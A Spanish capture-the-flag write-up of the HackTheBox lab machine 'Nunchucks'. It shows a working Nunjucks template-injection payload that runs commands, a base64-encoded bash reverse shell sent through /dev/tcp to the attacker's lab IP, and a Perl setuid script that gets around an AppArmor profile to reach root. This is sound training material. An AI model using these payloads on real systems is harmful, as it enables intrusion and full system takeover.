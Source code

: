 10.10.11.122 - Nunchucks
------------------------

Puertos abiertos: 22(ssh), 80(http), 443(https). Nmap nos dice que:
- Web en el puerto 80, nos redirige a https://nunchucks.htb/, nginx/1.18.0

Metemos ese nombre del dominio en /etc/hosts
Analizando por openssl no damos con subdominios ```openssl s_client -connect nunchucks.htb:443;```

La web parece una plataforma de ecommerce.
La unica ruta que encontramos es /signup

Fuzzing de subdominios:
```console
└─$ wfuzz -c -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt --hc=301 --hw=2271 \
-H "Host: FUZZ.nunchucks.htb" -u https://nunchucks.htb -t 100
000000081:   200        101 L    259 W      4028 Ch     "store"
└─$ whatweb https://store.nunchucks.htb
Bootstrap, Cookies[_csrf], HTTPServer[Ubuntu Linux][nginx/1.18.0 (Ubuntu)], JQuery[1.10.2], X-Powered-By[Express]
```

Si ponemos este nuevo dominio en el /etc/hosts, podremos acceder a la web de la tienda, que también está en 
pañales.

Solo hay un campo para hacer un /POST a store.nunchucks.htb/api/submit con una dirección de correo.
Pese a que no tenemos nada de python, al reflejarse nuestro input podemos probar un STTI que resuelve.

```console
└─$ curl https://store.nunchucks.htb/api/submit -k -d 'email={{7*7}}'
{"response":"You will receive updates on the following email address: 49."}
```
En efecto, un STTI. Probando otro payload ```{{cycler.__init__.__globals__.os.popen('whoami').read()}}``` nos da
error. Estamos ante express en vez de python así que habria que buscar payloads de express.

En [hacktricks](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection)
hay una seccion de SSTI, donde si bajamos podemos encontrar payloads para node.js (express), para
distintas librerias, entre ellas destaca nunjucks.

```console
└─$ curl https://store.nunchucks.htb/api/submit -k \
-d "{{range.constructor(\"return global.process.mainModule.require('child_process').execSync('whoami')\")()}}"
{"response":"You will receive updates on the following email address: undefined."}

└─$ echo bash -c 'bash -i >& /dev/tcp/10.10.14.12/443 0>&1' | base64 -w0
YmFzaCAtYyBiYXNoIC1pID4mIC9kZXYvdGNwLzEwLjEwLjE0LjEyLzQ0MyAwPiYxCg== 

└─$ curl https://store.nunchucks.htb/api/submit -k \
-d "email={{range.constructor(\"return global.process.mainModule.require('child_process').execSync('echo YmFzaCAtYyBiYXNoIC1pID4mIC9kZXYvdGNwLzEwLjEwLjE0LjEyLzQ0MyAwPiYxCg== | base64 -d | bash')\")()}}"
```
Y tenemos consola. Si corremos nuestro script de enumeración:
- Usuarios: root, david (nosotros)
- Hay varios logs en /var/log
- En /opt hay dos archivos interesantes -> /opt/backup.pl, /opt/web_backups
- Capabilities -> /usr/bin/perl = cap_setuid+ep

Hay una capability de perl, en gtfobins nos enseñan a usarla:
```console
david@nunchucks:/opt$ perl -e 'use POSIX qw(setuid); POSIX::setuid(0); exec "whoami";'
root
david@nunchucks:/opt$ perl -e 'use POSIX qw(setuid); POSIX::setuid(0); exec "/bin/sh";'
nada
```
¿Porqué no nos deja? En linux hay programas de seguridad como Selinux o apparmor. En este caso está el segundo
ya que existe la ruta /etc/apparmor.d

```console
david@nunchucks:~$ ls /etc/apparmor.d
abstractions  force-complain  lsb_release      sbin.dhclient  usr.bin.man   usr.sbin.ippusbxd  usr.sbin.rsyslogd
disable       local           nvidia_modprobe  tunables       usr.bin.perl  usr.sbin.mysqld    usr.sbin.tcpdump
```

El script /backup.pl utiliza lineas como use POSIX qw(setuid); y POSIX::setuid(0); para hacer ciertas tareas
en contexto privilegiado (hacer una copia de todo /var/www):

- Se activa para la capability en uso: ```capability setuid,```  
- Impedir permiso a ciertos archivos: ```deny /root/* rwx,```  
- Solo permitir ciertos comandos: ```/usr/bin/whoami mrix,```  

Buscando en google ```apparmor perl script``` di con [esto](https://bugs.launchpad.net/apparmor/+bug/1911431)

Hay que crear un script en perl con el codigo de gtfobins que usarmos antes pero que nos daba permiso denegado:
```perl
#!/usr/bin/perl

use POSIX qw(setuid);
POSIX::setuid(0);
exec "/bin/sh
```
```console
david@nunchucks:~$ chmod +x ./exploit.pl
david@nunchucks:~$ ./exploit.pl
# whoami
root
```
¿Y por que ahora si? La respuesta está en el sehabang (#!/usr/bin/perl). Al cambiar los permisos con **chmod+x** 
(hacerlo un ejecutable) se puede correr sin especificar el interprete (perl) porque eso ya lo hace el sheabang.

Lo que dice el articulo esque en la programación del kernel porque la funcion **bprm_creds_for_exec** se
ejecuta antes que otra **search_binary_handler** que sobreescribe el ejecutable por otro con el seabang

Según el articulo hay una función del kernel de linux (bprm_creds_for_exec) que es la que ejecuta el script, 
está antes que la que cambia el sheabang por ```perl ./exploit.pl``` (search_binary_handler).



